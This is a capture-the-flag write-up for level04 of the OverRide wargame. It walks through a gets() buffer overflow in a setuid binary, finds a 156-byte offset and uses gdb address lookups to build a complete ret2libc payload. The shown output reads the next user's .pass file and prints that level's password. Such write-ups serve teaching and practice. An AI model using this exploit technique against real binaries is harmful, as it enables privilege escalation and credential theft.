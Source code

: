 Level04 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level04/level04
```

Level04 rights:
```Shell
level04@OverRide:~$ ls -la level04 
-rwsr-s---+ 1 level05 users 7797 Sep 10  2016 level04
```

Testing the binary:
```Shell
level04@OverRide:~$ ./level04
Give me some shellcode, k
coucou
child is exiting...
```

Decompiling with Hex-Rays on https://dogbolt.org/ shows three things:
- the program creates a child process
- in the parent, you are asked to enter some shellcode
- `gets()` is used to store user input and can easily be overflowed
The answer is pretty straightforward. But instead of using a shellcode, we preferred using a `Ret2libC` method.

First, we need to find the offset. You cannot proceed as usual because of the child process, therefore we just did a bit of trial and errors. We first tried 200 characters, then 150, and some value in-between until we found 156. An infinite loop was created when going over 156, while going under 156 only exited the program normally.

Now let's retrieve three addresses (`system()`, `exit()` and `/bin/sh`) to finish our payload:
```Shell
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find &system, +9999999, "/bin/sh"
0xf7f897ec
```

This is our final payload:
```Shell
level04@OverRide:~$ python -c 'print("A" * 156 + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1]
)' > /tmp/payload04
```

And here is the result!
```Shell
level04@OverRide:~$ cat /tmp/payload04 - | ./level04
Give me some shellcode, k
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

